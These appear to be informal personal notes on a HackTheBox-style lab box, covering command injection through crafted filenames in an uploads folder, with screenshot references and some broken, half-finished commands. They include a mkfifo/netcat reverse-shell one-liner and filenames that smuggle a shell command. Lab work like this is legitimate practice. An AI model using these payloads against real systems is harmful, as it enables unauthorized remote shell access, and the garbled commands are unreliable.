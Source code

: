 Inifinite lock to prevent log file being remove. 

1. Create an attack.log file in /tmp
2. Make it execute php to trick it to lock the file 
	1. Filename must be not contain dots - listening on localhost?
	2. Or quotes `'`?s

It connects, but breaks if you use `nc -nv` - then a shell without a extension
![](works.png)

The final condition will always run as:
![](codebroke.png)
As if not false is actually false + false
![](alwaywillrun.png)

Check_ip()
![](chkip.png)

Unlike `with x as f:` in python, but like go, c or rust requires close() method to the file so it will never close.
![](flockyou.png)

To refresh:
1. Create an attack.log file in /tmp
1. create a file in uploads
	1. Filename must be not contain dots - listening on localhost?
	2. Or quotes `'`?s
3. we need a second shell to execute the exploitation 

```bash
touch rm /tmp/h;mkfifo /tmp/h;cat /tmp/h|/bin/sh -i 2>&1|nc localhost 8089 >/tmp/h'
# remember attack.log is php
touch system
```

![](cantappend.png)
Vim worked so just added a shell there. It did not put my test file name as a message in the attack.log though, waited, test.test.test was gone

![](3minutesisalongtime.png)
Reviewing [snowscan](https://snowscan.io/htb-writeup-networked) I had intially the write idea, but he is injecting the later lines. Once a again I am focusing on the wrong thing like self executing filenames. Where the solution is simply:

```bash
touch 'var/www/html/uploads/; ./tmp/shell'
# would not let create that
```

![](eh.png)

Reset the box as I think it is broken. AAAAAAAAAAAAAAAAAAARGH!
